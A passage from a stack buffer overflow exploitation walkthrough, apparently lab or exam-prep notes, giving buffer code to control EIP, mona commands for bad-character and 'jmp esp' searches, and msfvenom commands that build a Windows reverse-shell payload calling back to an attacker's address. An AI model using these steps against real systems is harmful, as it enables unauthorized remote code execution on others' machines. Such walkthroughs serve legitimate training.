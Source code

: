 Create a new buffer using this information to ensure that we can control EIP:

```
 prefix = ""
 offset = 112
 overflow = "A" * offset
 retn = "BBBB"
 padding = ""
 payload = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
 postfix = ""
    
 buffer = prefix + overflow + retn + padding + payload + postfix
```

Restart Immunity and run the exploit.py again. Then, use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

```
!mona compare -f C:\mona\appname\bytearray.bin -a <address> (ESP address and remember change the path of the appin "appname")
```

Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.


# 4. Finding a Jump Point
Find a jump point (Search de addres to set on the exploit in the "retn" part).
The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

```
!mona jmp -r esp -cpb "\x00\x0a\x0d" (change "\x00\x0a\x0d" value)
```

# 5. Generate Shell Code

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0IP LPORT=NetcatPort EXITFUNC=thread -b "\x00\x0a\x0d" -f c
```
or

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0IP LPORT=NetcatPort EXITFUNC=thread -b "\x00\x0a\x0d" -f python
```

### Prepend NOPs

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.
